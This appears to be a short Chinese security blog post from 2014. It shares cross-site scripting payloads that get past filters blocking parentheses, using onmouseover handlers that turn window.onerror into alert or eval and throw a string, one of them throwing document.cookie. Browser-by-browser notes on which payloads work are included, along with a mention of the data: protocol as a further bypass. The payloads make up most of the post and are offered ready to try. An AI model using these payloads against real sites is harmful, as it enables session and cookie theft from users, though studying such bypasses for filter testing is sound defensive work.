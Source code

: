 ﻿title: XSS绕过()检查
date: 2014-12-17 16:09:34
tags: xss
categories: 安全
---

前两天刚刚提交了一个xss漏洞注册了个乌云帐号，激动了好几个小时。感觉终于入了门了，这几个月的书没白看。
对于那些过滤了()的情况，可以用下面的payload来试一下，亲测最新chrome firefox IE：
``` html
<!-- IE work -->
<!-- chrome unCaught -->
<!-- firefox unCauht exception -->
<a onmouseover="javascript:window.onerror=alert;throw document.cookie">xxx</a>
<!-- <img src=x onerror="javascript:window.onerror=alert;throw 1"> -->

<!-- chrome work -->
<!-- IE not work -->
<!-- firefox not work -->
<a onmouseover=javascript:window.onerror=eval;throw'=alert\x28"xss"\x29';>xxxxx</a>

<!-- chrome not work -->
<!-- IE work -->
<!-- firefox not work -->
<a onmouseover=javascript:window.onerror=eval;throw'alert\x28"xss"\x29';>xxxxxxx</a>
```

还有一种是如果能够控制URL属性内容，可以使用data协议来绕过()的检查。